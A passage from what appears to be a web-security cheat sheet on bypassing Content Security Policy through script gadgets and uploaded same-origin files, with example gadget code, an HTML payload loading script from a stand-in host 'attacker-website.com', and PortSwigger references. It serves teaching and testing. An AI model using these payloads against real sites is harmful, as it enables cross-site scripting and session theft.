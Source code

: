 {% hint style="info" %}
Script gadgets can be used to bypass CSP even if a nonce-based policy is in use because gadgets are usually allowed to execute JavaScript.
{% endhint %}

For example, the following snippet calls a function in the global scope based on the arguments from markup:

```javascript
var array = document.getElementById('cmd').value.split(',');
window[array[0]].apply(this, array.slice(1));
```

As a result, this snippet can be used to invoke `window.*` functions with arbitrary arguments using the following `input` element:

```html
<input id="cmd" value="alert,1">
```

Another example is the snippet below that passes a value of the `RecaptchaClientUrl-` element to the `src` attribute of the `script` element:

```javascript
var t = document.querySelector("[id^='RecaptchaClientUrl-']").value
      , i = document.querySelector("[id^='RecaptchaClientSecret-']").value
      , n = document.createElement("script");
    n.id = "RecaptchaScript";
    n.src = t + i;
```

So, the following payload can be used to execute arbitrary JavaScript code:

```html
<input id="RecaptchaClientUrl-" value="//attacker-website.com/path/to/script.js" />
```

Check out the articles from the links below to learn more about finding gadgets.

References:
- [PortSwigger: Hunting nonce-based CSP bypasses with dynamic analysis](https://portswigger.net/research/hunting-nonce-based-csp-bypasses-with-dynamic-analysis)
- [PortSwigger: Bypassing CSP via DOM clobbering](https://portswigger.net/research/bypassing-csp-via-dom-clobbering)
- [PortSwigger: Hijacking service workers via DOM Clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

## Uploading custom files

### Controlling executable files and script-src 'self'

If there is a way to control files with arbitrary extensions to some path in the same domain it might be possible to abuse a CSP that sets `script-src 'self'` and execute arbitrary JavaScript code.

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'self';">
</head>
<body>
    <!-- the script.js will be loaded and executed -->
    <script src='/uploads/script.js'></script>
</body>
```
